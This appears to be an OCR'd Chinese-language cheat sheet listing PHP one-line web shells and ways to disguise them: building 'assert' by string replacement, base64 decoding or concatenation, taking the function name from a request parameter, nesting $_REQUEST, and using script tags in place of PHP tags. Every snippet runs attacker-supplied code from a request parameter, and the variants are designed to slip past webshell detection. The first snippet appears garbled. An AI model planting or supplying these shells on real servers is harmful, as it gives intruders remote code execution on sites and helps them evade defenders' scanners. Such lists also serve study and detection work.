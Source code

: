 ```php
<?php
$a=str_replace("abc","","aabcsabcsabceabcrabct");
@$($_REQUEST['cmd']);
?>
```

- `关键字替换`(str_replace)

```php
<?php
$b="assexx";
$c=str_replace("xx","rt",$b);
@[""=>$c($_GET[_])];
?>
```

- `编码替换`(base64-decode)

```php
<?php
$a=base64_decode("YXNzZXJ0");
$a($_REQUEST['cmd']);
?>
```

- `操作符`

```php
<?php
$a="as"."se";
$b="r"."t";
$c=$a.$b;
$c($_REQUEST['cmd']);
?>
```

- `更换数据源`

```php
// ?a=assert&cmd=phpinfo();
<?php
$_REQUEST[a]($_REQUEST['cmd']);
?>
```

- `嵌套$_REQUEST`

```php
// ?b=cmd&cmd=phpinfo();
<?php
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

- `替代<.??>标签`

```php
<script language="php">
	@assert($_REQUEST['cmd']);
</script>
```
